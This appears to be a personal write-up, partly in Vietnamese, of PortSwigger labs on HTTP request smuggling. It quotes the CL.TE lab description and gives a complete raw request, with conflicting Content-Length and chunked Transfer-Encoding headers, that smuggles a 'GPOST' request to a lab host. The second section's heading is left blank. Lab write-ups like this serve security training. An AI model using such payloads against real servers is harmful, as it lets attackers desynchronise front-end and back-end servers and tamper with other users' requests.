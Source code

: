 # [Portswigger] HTTP request smuggling

***

## 1. Lab: HTTP request smuggling, basic CL.TE vulnerability

* Content:
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```
* Giao diện web:

<img width="598" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/2ae9cf1d-c0b7-470c-98b7-7e7852a7bf97">

* Exploit:

Thực hiện `Change Request Method` sang từ `GET` thành `POST`, lưu ý chuyển sang sử dụng `HTTP/1.1`

Tiến hành send request trên 2 lần => Đến lần thứ 2 sẽ ra thông báo lỗi như yêu cầu của đề bài.

![telegram-cloud-photo-size-5-6127662865662981520-y](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/65aa6883-737f-467f-af44-65c6e95be974)

Lab Solved!!!

![telegram-cloud-photo-size-5-6127662865662981521-y](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/e7e5cb93-e7bb-4b4c-a22f-f848f18db027)

***
## 2. Lab:

```
POST / HTTP/1.1
Host: 0a5700bd049eb5f080b3262900b000fa.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

x=1
0


```
